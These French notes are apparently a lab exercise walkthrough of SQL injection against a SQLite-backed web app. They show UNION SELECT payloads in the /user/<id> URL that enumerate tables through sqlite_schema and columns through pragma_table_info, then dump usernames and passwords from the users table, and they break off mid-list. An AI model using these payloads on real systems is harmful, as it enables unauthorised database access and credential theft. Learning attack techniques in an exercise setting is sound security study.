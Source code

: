 - Repérer les information utiles pour trouver un point d'entré.
    - Dans l'exercice :
        - la liste des utilisateurs comporte admin
            - puis les articles crée par celui-ci nous donne des infos sur la longueur des mot de passe, le type de systeme de base de données


- Ensuite, rechercher une url n'étant pas protégé
    - Dans l'exercice :
        - l'url /user/1 = /user/<id>
        Ici si l'on écrit /user/2-1 la requête est interprétée, mais cela signifie que la requête n'est pas protégée.

- Ensuite, rechercher le nom des tables présentes dans la base de données
    - Dans l'exercice :
        - à la place de /user/1
        - on va écrire : -1 union select 1,2,3,4,5,6 from sqlite_schema
            - -1 signifie juste que l'affiche va être mis en premier (changer l'order by de la requête principale)
            - union signifie que le résultat de la requête caché du back va être jointe à la requête passée dans l'url
                - WARNING : les nombres de colonnes de la partie droite de UNION doivent correspondre au nombre de colonnes de la partie gauche afin d'obtenir un résultat
            - sqlite_schema va retourner le nom des tables présentes dans la base de données
                - WARNING : Il se peut qu'il faille changer des valeurs dans le select de la partie de droite selon le type de colonne du résultat de la première requête
            - Pour l'exercice, il faudra taper :
                - /-1 union select 1,"admin",3,name,"test",6 from sqlite_schema
            - La liste des tables est la suivante :
                - _sqlx_migrations
                - messages
                - sqlite_autoindex__sqlx_migrations_1
                - tags
                - users

- Celle qui nous intéresse est la table : users
- Du coup, nous devons récupérer le nom des colonnes présentes dans la table users
    - Pour cela il faut taper :
        - -1 union select 1,"admin",3,name,"password",6 from pragma_table_info('users')
    - Liste des colonnes de la table users :
        - id
        - name
        - password
**************************************************************************************
Ensuite, lister les mot de passe des différents utilisateurs :
    - Dans l'exercice :
        - On va taper : -1 union select 1,"admin",3,name,password,6 from users
    - Liste des mots de passe récupérer :
        - admin | 6001  // nico_le_BG_du_38 | 6002 // hamtaro_le_ouf_guedin | 6003 // diane_la_belle_gosse | 6004 // rodin | 6005
- Essayons d'afficher les mot de passe avec la dernière requête utilisé dans la partie précédente :
    - -1 union select 1,"admin",3,name,password,6 from users
- Cette fois nous récupérons des mots de passe qui ne sont pas en clair
    - Liste des mots de passe récupérés :
